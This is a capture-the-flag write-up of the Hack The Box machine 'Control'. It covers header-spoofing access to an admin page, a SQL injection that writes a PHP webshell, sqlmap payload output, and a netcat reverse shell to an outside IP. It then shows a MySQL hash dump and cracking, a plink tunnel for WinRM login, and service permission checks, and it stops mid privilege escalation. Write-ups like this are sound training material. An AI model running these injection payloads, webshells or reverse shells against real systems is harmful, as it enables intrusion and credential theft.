






## Summary

Control just retired today. I had lots of fun solving it, especially writing a PowerShell service bruteforce script. Its IP address is 10.10.10.167 and I added it to /etc/hosts as control.htb. Without further ado, let's jump right in!

## Scanning & Accessing Admin's Page

A basic nmap scan was enough to get me started:



root@fury-battlestation:~/htb/blog/control# nmap -sV control.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 12:57 EDT
Nmap scan report for control.htb (10.10.10.167)
Host is up (0.17s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
135/tcp  open  msrpc   Microsoft Windows RPC
3306/tcp open  mysql?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[...]
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.27 seconds
root@fury-battlestation:~/htb/blog/control#



There were only 3 open ports, and port 80 looked more interesting than the others. When I opened it in a browser, the following page loaded:

Because the site looked custom-made and I accumulated some experience with HTB (see badge at the bottom of the page), I instantly clicked the 'admin' button and got the following error page:

The page was talking about a proxy. I assumed that the PHP script checked some headers to verify whether the user is using the proxy or not. However, I did not know the proxy's IP address, so I continued enumerating. I found the following comment in the main page's source code:

The proxy was probably located at 192.168.4.28. To get acces to the admin panel, I opened Burp, intercepted the request and added an 'X-Forwarded-For' header. After the insertion, the request looked like this:

After forwarding the request, the admin panel loaded:

## Manually Exploiing the SQL Injection

There was a list of products which could be viewed, modified and deleted. I assumed the script used an SQL database to store this information and I began testing for injection points. By searching for ', I got an error:

Knowing that the backend DB is MariaDB, I captured the request in Burp and tried sending a valid UNION statement. After a few tries, I got the following payload:


productName=a' UNION ALL SELECT 1,2,3,4,5,6 #


According to the nmap scan, the server was running Widnows. I used this information to create a PHP shell:


productName=a' UNION ALL SELECT 1,'<?php echo shell_exec($_GET["yaku"]); ?>',3,4,5,6 INTO OUTFILE  'C:\\Inetpub\\wwwroot\\yakuhito.php' #


I then tried to run 'whoami' on the target machine to confirm that the injection worked:

Getting a shell this way is usually ok, however, due to the nature of this box, I prefered to use SQLMap to upload a better shell.

## Using SQLMap for File Upload

One of the beft features of SQLMap is the ability to parse an HTTP request and test all parameters. You don't need to specify a host or anything related; SQLMap will figure that out. In my case, the request file (named req.txt) contained the following text:


POST /search_products.php HTTP/1.1
Host: control.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://control.htb/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28
Cache-Control: max-age=0

productName=a


Identifying the injection with SQLMap was pretty straightforward:


root@fury-battlestation:~/htb/blog/control# sqlmap -r req.txt --level 5 --risk 3 --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user;s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:25:40 /2020-04-25/

[03:25:40] [INFO] parsing HTTP request from 'req.txt'
[03:25:41] [INFO] testing connection to the target URL
[03:25:41] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:25:41] [INFO] testing if the target URL content is stable
[03:25:41] [INFO] target URL content is stable
[03:25:41] [INFO] testing if POST parameter 'productName' is dynamic
[03:25:42] [WARNING] POST parameter 'productName' does not appear to be dynamic
[03:25:42] [INFO] heuristic (basic) test shows that POST parameter 'productName' might be injectable (possible DBMS: 'MySQL')
[03:25:42] [INFO] heuristic (XSS) test shows that POST parameter 'productName' might be vulnerable to cross-site scripting (XSS) attacks
[03:25:42] [INFO] testing for SQL injection on POST parameter 'productName'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[03:25:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:25:42] [WARNING] reflective value(s) found and filtering out
[03:25:56] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[03:25:57] [INFO] POST parameter 'productName' appears to be 'OR boolean-based blind - WHERE or HAVING clause' injectable (with --string="36")
[03:25:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[03:25:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[03:25:57] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[03:25:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[03:25:58] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[03:25:58] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[03:25:58] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:25:58] [INFO] POST parameter 'productName' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[03:25:58] [INFO] testing 'MySQL inline queries'
[03:25:58] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[03:26:09] [INFO] POST parameter 'productName' appears to be 'MySQL > 5.0.11 stacked queries (comment)' injectable 
[03:26:09] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:26:20] [INFO] POST parameter 'productName' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[03:26:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:26:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[03:26:20] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[03:26:21] [INFO] target URL appears to have 6 columns in query
[03:26:21] [INFO] POST parameter 'productName' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
[03:26:21] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'productName' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 134 HTTP(s) requests:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: productName=-4244' OR 7412=7412-- zMrh

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=a' AND (SELECT 4424 FROM(SELECT COUNT(*),CONCAT(0x7170706271,(SELECT (ELT(4424=4424,1))),0x717a767671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- shNQ

    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (comment)
    Payload: productName=a';SELECT SLEEP(5)#'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=a' AND (SELECT 4980 FROM (SELECT(SLEEP(5)))OOQu)-- NSXu'

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: productName=a' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7170706271,0x785a435a53534c527865757548516b556f634b4345567848456e5158485971625848466b5963765a,0x717a767671),NULL,NULL-- voPu'
---
[03:26:21] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 10 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: MySQL >= 5.0
[03:26:21] [INFO] fetched data logged to text files under '/root/.sqlmap/output/control.htb'
[03:26:21] [WARNING] you haven;t updated sqlmap for more than 266 days!!!

[*] ending @ 03:26:21 /2020-04-25/

root@fury-battlestation:~/htb/blog/control#


As I said before, I wanted a more advanced webshell. I usually use [this one](https://github.com/WhiteWinterWolf/wwwolf-php-webshell). I downloaded it to my computer and saved it as 'yakuplusplus.php'. After that, uploading it to the remote machine took only one command:


root@fury-battlestation:~/htb/blog/control# sqlmap -r req.txt --file-write="yakuplusplus.php" --file-dest="C:\\Inetpub\\wwwroot\\yakuplusplus.php" --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.8#stable}
|_ -| . [ ]     | . | . |
|___|_  [ ]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user;s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 03:31:46 /2020-04-25/

[03:31:46] [INFO] parsing HTTP request from 'req.txt'
[03:31:47] [INFO] resuming back-end DBMS 'mysql' 
[03:31:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: productName=-4244' OR 7412=7412-- zMrh'

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=a' AND (SELECT 4424 FROM(SELECT COUNT(*),CONCAT(0x7170706271,(SELECT (ELT(4424=4424,1))),0x717a767671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- shNQ'

    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (comment)
    Payload: productName=a';SELECT SLEEP(5)#'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=a' AND (SELECT 4980 FROM (SELECT(SLEEP(5)))OOQu)-- NSXu'

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: productName=a' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7170706271,0x785a435a53534c527865757548516b556f634b4345567848456e5158485971625848466b5963765a,0x717a767671),NULL,NULL-- voPu'
---
[03:31:47] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 10 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: MySQL >= 5.0
[03:31:47] [INFO] fingerprinting the back-end DBMS operating system
[03:31:48] [INFO] the back-end DBMS operating system is Windows
[03:31:48] [WARNING] potential permission problems detected ('Access denied')
[03:31:58] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
do you want confirmation that the local file 'yakuplusplus.php' has been successfully written on the back-end DBMS file system ('C:/Inetpub/wwwroot/yakuplusplus.php')? [Y/n] Y
[03:32:03] [INFO] the local file 'yakuplusplus.php' and the remote file 'C:/Inetpub/wwwroot/yakuplusplus.php' have the same size (7205 B)
[03:32:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/control.htb'
[03:32:03] [WARNING] you haven;t updated sqlmap for more than 266 days!!!

[*] ending @ 03:32:03 /2020-04-25/

root@fury-battlestation:~/htb/blog/control#


The new shell was located at /yakuplusplus.php:

A small problem appeared: I couldn't upload any files to the wwwroot directory because I didn't have the required permissions. Luckily for me, the wwwroot/uploads directory was writeable.
Now that I had an easier way of uploading files and executting commands, I uploaded a netcat binary and created a reverse shell using the following command:

nc.exe 10.10.14.187 443 -e powershell.exe


After executing the command, a reverse shell connected on port 443:

root@fury-battlestation:~/htb/blog/control# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.187] from (UNKNOWN) [10.10.10.167] 59577
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\uploads> whoami
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\uploads>


## Getting Hector's Password

Since the current user had no home directory (meaning no user.txt file), I enumerated the machine's users:

PS C:\inetpub\wwwroot\uploads> dir C:\Users
dir C:\Users

    Directory: C:\Users

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        11/5/2019   2:34 PM                Administrator                                                         
d-----        11/1/2019  11:09 AM                Hector                                                                
d-r---        4/24/2020   8:28 PM                Public                                                                

PS C:\inetpub\wwwroot\uploads>


I didn't have Hector's password yet, so I started enumerated the config files of the web app and found some credentials:


PS C:\inetpub\wwwroot> type database.php
type database.php
<?php
class Database
{
    private static $dbName = 'warehouse' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'manager';
    private static $dbUserPassword = 'l3tm3!n';
[...]


Using that password for Hector didn't work, but it made me realise there could be more accounts for the database. I used SQLMap to test out my theory:

root@fury-battlestation:~/htb/blog/control# sqlmap -r req.txt --level 5 --risk 3 -D mysql -T user --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.3.8#stable}
|_ -| . [,]     | . | . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user;s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:05:25 /2020-04-25/

[04:05:25] [INFO] parsing HTTP request from 'req.txt'
[04:05:25] [INFO] resuming back-end DBMS 'mysql' 
[04:05:25] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: productName=-4244' OR 7412=7412-- zMrh'

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=a' AND (SELECT 4424 FROM(SELECT COUNT(*),CONCAT(0x7170706271,(SELECT (ELT(4424=4424,1))),0x717a767671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- shNQ'

    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (comment)
    Payload: productName=a';SELECT SLEEP(5)#'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=a' AND (SELECT 4980 FROM (SELECT(SLEEP(5)))OOQu)-- NSXu'

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: productName=a' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7170706271,0x785a435a53534c527865757548516b556f634b4345567848456e5158485971625848466b5963765a,0x717a767671),NULL,NULL-- voPu'
---
[04:05:26] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 10 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.3.7
back-end DBMS: MySQL >= 5.0
[04:05:26] [INFO] fetching columns for table 'user' in database 'mysql'
[04:05:26] [INFO] fetching entries for table 'user' in database 'mysql'
[04:05:26] [INFO] recognized possible password hashes in columns 'authentication_string, Password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[04:05:31] [INFO] writing hashes to a temporary file '/tmp/sqlmapSx4yYp4006/sqlmaphashes-2gMfZG.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: mysql
Table: user
[6 entries]
+-----------+---------+-----------------------+---------+-------------------------------------------+----------+-----------+-----------+------------+------------+------------+------------+------------+------------+-------------+-------------+-------------+-------------+-------------+-------------+-------------+-------------+--------------+--------------+--------------+--------------+--------------+--------------+---------------+---------------+----------------+-----------------+-----------------+-----------------+------------------+------------------+------------------+------------------+------------------+--------------------+--------------------+---------------------+---------------------+----------------------+-------------------------------------------+-----------------------+------------------------+
| Host      | User    | plugin                | is_role | Password                                  | ssl_type | Drop_priv | File_priv | Grant_priv | Super_priv | Alter_priv | ssl_cipher | Index_priv | Event_priv | Create_priv | max_updates | Reload_priv | Delete_priv | Insert_priv | x509_issuer | Select_priv | Update_priv | Execute_priv | default_role | Show_db_priv | x509_subject | Process_priv | Trigger_priv | Shutdown_priv | max_questions | Show_view_priv | max_connections | Repl_slave_priv | References_priv | Repl_client_priv | Create_user_priv | password_expired | Create_view_priv | Lock_tables_priv | Alter_routine_priv | max_statement_time | Create_routine_priv | Delete_history_priv | max_user_connections | authentication_string                     | Create_tmp_table_priv | Create_tablespace_priv |
+-----------+---------+-----------------------+---------+-------------------------------------------+----------+-----------+-----------+------------+------------+------------+------------+------------+------------+-------------+-------------+-------------+-------------+-------------+-------------+-------------+-------------+--------------+--------------+--------------+--------------+--------------+--------------+---------------+---------------+----------------+-----------------+-----------------+-----------------+------------------+------------------+------------------+------------------+------------------+--------------------+--------------------+---------------------+---------------------+----------------------+-------------------------------------------+-----------------------+------------------------+
| localhost | root    | mysql_native_password | N       | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | <blank>  | Y         | Y         | Y          | Y          | Y          | <blank>    | Y          | Y          | Y           | 0           | Y           | Y           | Y           | <blank>     | Y           | Y           | Y            | <blank>      | Y            | <blank>      | Y            | Y            | Y             | 0             | Y              | 0               | Y               | Y               | Y                | Y                | N                | Y                | Y                | Y                  | 0.000000           | Y                   | Y                   | 0                    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | Y                     | Y                      |
| fidelity  | root    | mysql_native_password | N       | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | <blank>  | Y         | Y         | Y          | Y          | Y          | <blank>    | Y          | Y          | Y           | 0           | Y           | Y           | Y           | <blank>     | Y           | Y           | Y            | <blank>      | Y            | <blank>      | Y            | Y            | Y             | 0             | Y              | 0               | Y               | Y               | Y                | Y                | N                | Y                | Y                | Y                  | 0.000000           | Y                   | Y                   | 0                    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | Y                     | Y                      |
| 127.0.0.1 | root    | mysql_native_password | N       | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | <blank>  | Y         | Y         | Y          | Y          | Y          | <blank>    | Y          | Y          | Y           | 0           | Y           | Y           | Y           | <blank>     | Y           | Y           | Y            | <blank>      | Y            | <blank>      | Y            | Y            | Y             | 0             | Y              | 0               | Y               | Y               | Y                | Y                | N                | Y                | Y                | Y                  | 0.000000           | Y                   | Y                   | 0                    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | Y                     | Y                      |
| ::1       | root    | mysql_native_password | N       | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | <blank>  | Y         | Y         | Y          | Y          | Y          | <blank>    | Y          | Y          | Y           | 0           | Y           | Y           | Y           | <blank>     | Y           | Y           | Y            | <blank>      | Y            | <blank>      | Y            | Y            | Y             | 0             | Y              | 0               | Y               | Y               | Y                | Y                | N                | Y                | Y                | Y                  | 0.000000           | Y                   | Y                   | 0                    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 | Y                     | Y                      |
| localhost | manager | mysql_native_password | N       | *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA | <blank>  | N         | Y         | N          | N          | N          | <blank>    | N          | N          | N           | 0           | N           | N           | N           | <blank>     | N           | N           | N            | <blank>      | N            | <blank>      | N            | N            | N             | 0             | N              | 0               | N               | N               | N                | N                | N                | N                | N                | N                  | 0.000000           | N                   | N                   | 0                    | *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA | N                     | N                      |
| localhost | hector  | mysql_native_password | N       | *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D | <blank>  | Y         | Y         | Y          | Y          | Y          | <blank>    | Y          | Y          | Y           | 0           | Y           | Y           | Y           | <blank>     | Y           | Y           | Y            | <blank>      | Y            | <blank>      | Y            | Y            | Y             | 0             | Y              | 0               | Y               | Y               | Y                | Y                | N                | Y                | Y                | Y                  | 0.000000           | Y                   | Y                   | 0                    | *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D | Y                     | Y                      |
+-----------+---------+-----------------------+---------+-------------------------------------------+----------+-----------+-----------+------------+------------+------------+------------+------------+------------+-------------+-------------+-------------+-------------+-------------+-------------+-------------+-------------+--------------+--------------+--------------+--------------+--------------+--------------+---------------+---------------+----------------+-----------------+-----------------+-----------------+------------------+------------------+------------------+------------------+------------------+--------------------+--------------------+---------------------+---------------------+----------------------+-------------------------------------------+-----------------------+------------------------+

[04:05:34] [INFO] table 'mysql.`user`' dumped to CSV file '/root/.sqlmap/output/control.htb/dump/mysql/user.csv'
[04:05:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/control.htb'
[04:05:34] [WARNING] you haven;t updated sqlmap for more than 266 days!!!

[*] ending @ 04:05:34 /2020-04-25/

root@fury-battlestation:~/htb/blog/control# 


There was a user named hector, so I tried to crack his hash using john:


root@fury-battlestation:~/htb/blog/control# cp /tmp/sqlmapSx4yYp4006/sqlmaphashes-2gMfZG.txt ./hashes.txt
root@fury-battlestation:~/htb/blog/control# john --wordlist=/usr/share/wordlists/rockyou.txt ./hashes.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
l33th4x0rhector  (?)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:01 DONE (2020-04-25 04:07) 0.6024g/s 8639Kp/s 8639Kc/s 21136KC/sa6_123..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@fury-battlestation:~/htb/blog/control# 


The password for hector could be 'l33th4x0rhector'. However, I did not have a way of verifying this credentials (yet).

## Becoming Hector

After some more enumeration, I saw that port 5985 was open:

PS C:\inetpub\wwwroot> netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       828
  TCP    0.0.0.0:3306           0.0.0.0:0              LISTENING       1920
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4


However, nmap didn't report it as open. This made me conclude that the port was only opened on localhost. I knew evil-winrm could authenticate as Hector if it could access that port, so I used plink.exe to make it accesible from my machine: 

PS C:\inetpub\wwwroot\uploads> ./plink.exe -R 5985:127.0.0.1:5985 10.10.14.187
./plink.exe -R 5985:127.0.0.1:5985 10.10.14.187
The server;s host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server;s rsa2 key fingerprint is:
ssh-rsa 3072 65:02:37:f8:fb:f6:d7:ea:29:cb:4f:38:58:30:67:18
If you trust this host, enter "y" to add the key to
PuTTY;s cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) n
login as: yakuhito
yakuhito@10.10.14.187;s password: blog.kuhi.to

Linux fury-battlestation 5.2.0-kali2-amd64 #1 SMP Debian 5.2.9-2kali1 (2019-08-22) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 06:57:07 2020 from 10.10.10.167
yakuhito@fury-battlestation:~$ 


I forgot to mention that I uploaded plink.exe using the web shell. The binary can be found on all Kali distributions (run 'locate plink.exe' to find it).
After forwarding port 5985, any traffic directed to my machine's port 5985 would be tunneled to Fidelity's port 5985. This meant that I could finally authenticate as Hector:

root@fury-battlestation:~/htb/blog/control# git clone https://github.com/Hackplayers/evil-winrm.git
Cloning into 'evil-winrm'...
remote: Enumerating objects: 72, done.
remote: Counting objects: 100% (72/72), done.
remote: Compressing objects: 100% (58/58), done.
remote: Total 772 (delta 38), reused 32 (delta 14), pack-reused 700
Receiving objects: 100% (772/772), 1.92 MiB | 1.33 MiB/s, done.
Resolving deltas: 100% (443/443), done.
root@fury-battlestation:~/htb/blog/control# cd evil-winrm/
root@fury-battlestation:~/htb/blog/control/evil-winrm# ruby evil-winrm.rb -i localhost -u hector -p l33th4x0rhector

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Hector\Documents> whoami
control\hector
*Evil-WinRM* PS C:\Users\Hector\Documents> dir ..\Desktop

    Directory: C:\Users\Hector\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/1/2019  12:33 PM             32 user.txt

*Evil-WinRM* PS C:\Users\Hector\Documents>


The user proof starts with 'd8' 😉

## Bruteforcing my Way to Root

The first interesting thing that I uncovered during enumeration as Hector was his PS history:


*Evil-WinRM* PS C:\Users\Hector\Documents> type C:\Users\Hector\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
*Evil-WinRM* PS C:\Users\Hector\Documents>


Since the name of the box is Control and Hector looked at the CurrentControlSet registry, I knew that privesc had something to do with it. My theory was that some services might have insecure permissions (e.g. Hector could modify them - this is bad because services are usually started by SYSTEM). To test my theory, I used Microsoft's accesschk.exe tool:

*Evil-WinRM* PS C:\Users\Hector\Documents> upload ./accesschk.exe
Info: Uploading ./accesschk.exe to C:\Users\Hector\Documents\accesschk.exe

*Evil-WinRM* PS C:\Users\Hector\Documents> ./accesschk.exe "Hector" -kvuqsv hklm:\System\CurrentControlSet\Services
[...]
RW HKLM\System\CurrentControlSet\Services\ws2ifsl
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\Services\ws2ifsl\Parameters
	KEY_ALL_ACCESS
